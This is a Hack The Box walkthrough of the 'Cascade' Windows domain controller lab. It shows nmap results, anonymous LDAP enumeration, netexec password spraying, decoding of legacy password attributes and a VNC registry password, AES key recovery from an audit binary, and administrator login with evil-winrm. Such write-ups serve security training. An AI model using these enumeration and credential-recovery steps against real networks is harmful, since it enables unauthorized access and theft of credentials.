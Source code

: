 ```yaml
---
layout: post
title: HTB - cascade
date: 2025-05-15 09:45 -0400
---
```


{{ 'cascade' | machine_img }}

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-05-06 09:35 -04
Nmap scan report for 10.10.10.182
Host is up (0.16s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-06 13:35:26Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-06T13:36:19
|_  start_date: 2025-05-06T13:33:07
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.42 seconds
```

domain:
- cascade.local

nothing on udp

Anonymous login works for ldap. Will dump everything + bloodhound.

bloodhound doesn't want to work with anonymous login.

time to take the users and try `users:users` after cleaning up the names.
```bash
netexec smb $(cat ip.txt) -u users.txt -p users.txt --shares --continue-on-success --no-bruteforce
```

no luck. will explore users descriptions on ldap.
- CASC-DC1.cascade.local
- is the pc name I think

password not required gives a user. but it doesn't work
```bash
netexec ldap $(cat ip.txt) -u '' -p ''  --password-not-required
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
LDAP        10.10.10.182    389    CASC-DC1         [+] cascade.local\:
LDAP        10.10.10.182    389    CASC-DC1         User: a.turnbull Status: enabled
LDAP        10.10.10.182    389    CASC-DC1         User: CascGuest Status: disabled
```

checking every ldap attribute for something interesting:
```bash
for user in $(cat users_valid.txt); do echo $user;  netexec ldap $(cat ip.txt) -u '' -p '' --query "(sAMAccountName=$user)" ""; done
```

r.thompson has one: `cascadeLegacyPwd:    clk0bjVldmE= (rY4n5eva)`
now we get a tgt and try bloodhound

nothing much on it
![cascade1](/assets/img/cascade1.png)

smb looks more interesting:
```bash
~/workspace/projects/htb/cascade » netexec smb $(cat ip.txt) -u r.thompson -p 'rY4n5eva' --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
----------------------------------------------------------------------------------------------------------------
```

Can't read stuff for some reason.

try same password on every user. Didn't work.

It was skill issue, now I can read stuff:
```bash
smbclient -U 'casc-dc1.cascade.local/r.thompson%rY4n5eva' "//Casc-DC1.cascade.local/Data"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 23:27:34 2020
  ..                                  D        0  Sun Jan 26 23:27:34 2020
  Contractors                         D        0  Sun Jan 12 21:45:11 2020
  Finance                             D        0  Sun Jan 12 21:45:06 2020
  IT                                  D        0  Tue Jan 28 14:04:51 2020
  Production                          D        0  Sun Jan 12 21:45:18 2020
  Temps                               D        0  Sun Jan 12 21:45:15 2020
```

Available files:

- "IT/Email Archives/Meeting_Notes_June_2018.html"
- "IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log"
- "IT/Logs/DCs/dcdiag.log"
- "IT/Temp/s.smith/VNC Install.reg"

TODO:
way to crawl smb filtering by filesize and downloading it

Some interesting stuff, ben plays too much.
![cascade2](/assets/img/cascade2.png)

`Username is TempAdmin (password is the same as the normal admin account password).`

There is a password on `VNC Install.reg`. Maybe the password is the literal hex? since some chars are outside ascii range
```bash
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f ()
```

Doesn't seem to work.

Actually the password is encrypted and you can decrypt with `vncpasswd.py`
```bash
~/workspace/projects/htb/cascade » docker run -v ./:/app/ -ti trinitronx/vncpasswd.py -d -H '6bcf2a4b6e5aca0f'Decrypted Bin Pass= 'sT333ve2'
Decrypted Hex Pass= '7354333333766532'
```

password works for s.smith:
```bash
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2
```

and he has winrm access
![cascade3](/assets/img/cascade3.png)

```bash
*Evil-WinRM* PS C:\Users\s.smith\Desktop> type user.txt
dfe61***************************
```

We probably need to recover the TempAdmin from bin, maybe use internal vnc. Will do my enum anyway.
Nothing interesting on the machine.

Steve can read the 'Audit$'. Some reversing maybe?
```bash
~/workspace/projects/htb/cascade » smbclient -U 'casc-dc1.cascade.local/s.smith%sT333ve2' "//Casc-DC1.cascade.local/Audit$"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 14:01:26 2020
  ..                                  D        0  Wed Jan 29 14:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 17:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 14:00:20 2020
  DB                                  D        0  Tue Jan 28 17:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 19:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 18:25:27 2020
  x86                                 D        0  Sun Jan 26 18:25:27 2020
```

arksvc password
```bash
sqlite> select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

outside ascii, maybe its also encrypted?
will have to check the .exe

ILSpy looks awful on linux. But we have the whole decryption flow here.
- key: c4scadek3y654321
- iv: 1tdyjCbY1Ix49842
![ILSpy 1](/assets/img/cascade4.png)
![ILSpy 2](/assets/img/cascade5.png)

password: w3lc0meFr31nd

arksvc has access to the ad recycle bin, so we can recover TempAdmin. But how to get its password?
![bloodhound](/assets/img/cascade7.png)

turns out it has a cascadeLegacyPwd also:
```bash
Get-ADObject -Filter 'sAMAccountName -eq "TempAdmin"' -IncludeDeletedObjects -Properties *
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz (baCT3r1aN00dles)
```

so this should be the admin password according to the meeting thingy.

```bash
~/workspace/projects/htb/cascade » evil-winrm -i $(cat ip.txt) -u 'Administrator' -p 'baCT3r1aN00dles'
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
7e03f***************************
```
